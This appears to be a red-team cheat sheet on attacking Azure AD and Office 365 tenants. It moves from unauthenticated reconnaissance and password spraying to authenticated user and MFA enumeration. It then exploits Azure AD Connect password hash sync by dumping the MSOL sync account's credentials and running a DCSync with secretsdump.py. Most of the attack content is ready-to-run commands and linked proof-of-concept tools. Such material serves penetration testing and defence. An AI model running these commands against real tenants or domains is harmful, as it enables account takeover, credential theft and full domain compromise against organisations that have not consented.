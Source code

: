 ### Overview

Active Directory  | Azure AD
------------------|---------
LDAP  | REST API'S
NTLM/Kerberos  | OAuth/SAML/OpenID
Structured directory (OU tree)  | Flat structure
GPO  | No GPO's
Super fine-tuned access controls  | Predefined roles
Domain/forest  | Tenant
Trusts  | Guests

### Unauthenticated

If managed in output, target is using Azure AD.

```
https://login.microsoftonline.com/getuserrealm.srf?login=username@domain.local&xml=1
```

Verify email addresses (does not leave any trace in Azure AD logs):

- https://github.com/LMGsec/o365creeper

Password spraying:

- `Security Defaults` or `Conditional Access Policies` features prevent such attacks
- Produce a lot of "Login Failure" logs in Azure AD and are easily recognizable 

```
Invoke-PasswordSprayEWS -ExchHostname outlook.office365.com -UserList emails.txt -Password 'Company2024!'
```

### Authenticated

o365recon uses the MSOnline PowerShell

```
PS C:\o365recon-master> Connect-MsolService
PS C:\o365recon-master> powershell -ep bypass .\o365recon.ps1 -outputfile output
```

`-users_detailed` ﬂag can be used in order to query more information about users. If the LastDirSyncTime is empty, the account only exists in the cloud.

List Azure AD roles and the members of these roles:

- https://gist.github.com/ciphertxt/2036e614edf4bf920796059017fbbc3d

Gather the list of all email addresses:

```
PS C:\> Get-GlobalAddressList -ExchHostname outlook.office365.com -UserName user@domain.onmicrosoft.c
om -Password Company2024 -OutFile global-address-list.txt
PS C:\> type .\global-address-list.txt
```

Connect to Exchange Service to retrieve the AD username corresponding to the given email:

```
PS C:\> Get-ADUsernameFromEWS -EmailList emails.txt -ExchHostname outlook.office365.com -Remote
```

List users with multi-factor authentication (requires Azure AD administrators):

```
PS C:\> Connect-MsolService
PS C:\> Get-MsolUser -EnabledFilter EnabledOnly -MaxResults 50000 | select DisplayName,UserPrincipalName,@
{N="MFA Status"; E={ if( $_.StrongAuthenticationRequirements.State -ne $null){ $_. StrongAuthenticationRequ
irements.State} else { "Disabled"}}} | export-csv mfaresults.csv
PS C:\> type .\mfaresults.csv
```

Best tool to exploit Azure AD:

- https://github.com/dirkjanm/ROADtools
- https://github.com/dirkjanm/ROADtools/wiki/Getting-started-with-ROADrecon


Exploiting password hash synchronization (phs):

`MSOL_` (the sync account) has replication privileges on the domain.

1) Find the server where Azure AD Connect is installed in description of the `MSOL_` user.

```
ldapsearch -H ldap://DC01.DOMAIN.COM:389 -D "DOMAIN\user" -w "password" -b "DC=DOMAIN,DC=COM" '(descriptio
n=*Azure*)' description
```

2) Dump the MSOL service account (which allows a DCSync) used by Azure AD Connect Sync. This requires local administrator account or ADSync service account.

- Blog: https://blog.xpnsec.com/azuread-connect-for-redteam/
- PoC: https://gist.github.com/xpn/f12b145dba16c2eebdd1c6829267b90c

If a fully deployed SQL Server is used instead of SQL Server Express database, the connection string from the PoC must be replaced by the following: `"Server=LocalHost;Database=ADSync;Trusted_Connection=True;"`

To dump the credentials over network:

- https://github.com/dirkjanm/adconnectdump

Or, by dumping LSASS 🚩.

3) DC Sync

```
python3 secretsdump.py DOMAIN/MSOL_xxxxxxx@DC01.domain.com
```

This account is also valid and highly-privileged in the cloud.
